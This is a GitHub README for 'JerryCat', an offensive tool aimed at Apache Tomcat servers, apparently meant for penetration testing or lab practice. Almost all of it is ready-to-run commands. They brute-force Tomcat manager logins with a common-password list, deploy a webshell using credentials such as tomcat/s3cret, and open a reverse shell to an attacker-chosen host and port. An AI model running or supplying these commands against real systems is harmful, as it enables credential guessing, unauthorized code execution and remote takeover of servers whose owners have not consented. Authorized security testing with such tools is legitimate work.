 <h1 align="center">JerryCat 🐭<h1>
<p align="center">
  <img alt="Version" src="https://img.shields.io/badge/version-1.1-blue.svg?cacheSeconds=2592000" />
  <a href="https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE" target="_blank">
    <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-gray.svg" />
  </a>
  </br>
  <a href="https://twitter.com/Talace_" target="_blank">
    <img alt="Twitter: Talace_" src="https://img.shields.io/twitter/follow/Talace_.svg?style=social" />
  </a>
  <a href="https://twitter.com/LeandreOnizuka" target="_blank">
    <img alt="Twitter: LeandreOnizuka" src="https://img.shields.io/twitter/follow/LeandreOnizuka.svg?style=social" />
  </a>
</p>

## Features/Mode ⚒️

 - [x] [Brute Force (brute)](#brute-force)
 - [x] [Webshell (exec)](#webshell)
 - [x] [Reverse shell (reverse)](#reverse-shell)

## Setup ✨

Clone & install dependencies
```sh
git clone https://github.com/TheF0rceAwak5ns/JerryCat.git && cd JerryCat && pip install -r requirements.txt
```

## Usage - Unauthenticated attack 

### Brute Force
**without** a user list
```sh
python3 jerrycat.py brute http://10.10.10.10:8080/ -P resources/password-list-common-tomcat.txt
```
**with** a user list
```sh
python3 jerrycat.py brute http://10.10.10.10:8080/ -U /path/to/user/list -P resources/password-list-common-tomcat.txt
```

## Usage - Authenticated attack

### Webshell
```sh
python3 jerrycat.py exec http://10.10.10.10:8080/ -u tomcat -p s3cret
```

### Reverse shell
```sh
python3 jerrycat.py reverse http://10.10.10.10:8080/ -u tomcat -p s3cret --lhost 10.10.10.10 --lport 4444
```





